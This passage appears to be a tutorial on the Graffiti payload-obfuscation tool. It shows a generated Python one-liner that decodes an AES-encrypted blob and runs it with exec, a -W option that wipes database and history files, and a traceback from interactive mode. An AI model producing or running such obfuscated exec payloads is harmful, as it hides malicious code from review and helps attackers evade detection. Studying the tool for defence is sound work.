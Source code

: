 ```
Payload: python -c 'import base64;from Crypto import Random;from Crypto.Cipher import AES;from Crypto.Util import Counter;ct=base64.b64decode("7mC355qybpwkZRVMOGKbHBNqNKFwVbBcpgBZ0cwQlNT6sAF3YwLN9DmIFph4GCRHFVEghR8xTeWIulP3MOpPAI869iFn5FzX3Y32m9tGqiVzvL0tO0NTU2gQXTAauni+8p0+Au/fxjgX8AwpuJOl7lIPFxVHTk/zRLu0mg257OknhKgJxuQgUM5SrXG+XJcg1BRohs0AHJSGjLQs0oqfBxV4WPLLMVQHP76DJHTndgakXf0cHhbkJa+J6umbjMaG+6ZbJSz/7SQo+9XWzTGNU5w80/KP");dk=base64.b64decode("gGhVa2B/DPmOp1tfIL2AhdyVyTapvpgtkCLFZ4WL0OU=");iv=base64.b64decode("VSUepHglfitT7q08vuekMA==");ivi=int(iv.encode("hex"),16);co=Counter.new(AES.block_size*8,initial_value=ivi);a=AES.new(dk,AES.MODE_CBC,counter=co);r=a.decrypt(ct);exec(str(r))'
```

We can also wipe the history with the **-W** switch:

```
~# graffiti -W

wiping the database and the history files
database and history files wiped
```

### Option 2: Use Graffiti in Interactive Mode <a href="#jump-option2usegraffitiininteractivemode" id="jump-option2usegraffitiininteractivemode"></a>

The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. Simply run the tool without any arguments to drop in:

```
~# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
Traceback (most recent call last):
  File "graffiti.py", line 5, in <module>
    main()
  File "/root/.graffiti/.install/etc/main/main.py", line 10, in main
    Parser().single_run_args(parsed_config, cursor)
  File "/root/.graffiti/.install/etc/lib/arguments.py", line 182, in single_run_args
    ).do_start(conf["graffiti"]["saveCommandHistory"])
  File "/root/.graffiti/.install/etc/lib/terminal_display.py", line 290, in do_start
    self.reflect_memory()
  File "/root/.graffiti/.install/etc/lib/terminal_display.py", line 77, in reflect_memory
    with open(self.full_history_file_path) as history:
IOError: [Errno 2] No such file or directory: '/root/.graffiti/.install/etc/.history/2019-11-14/graffiti.history'
```
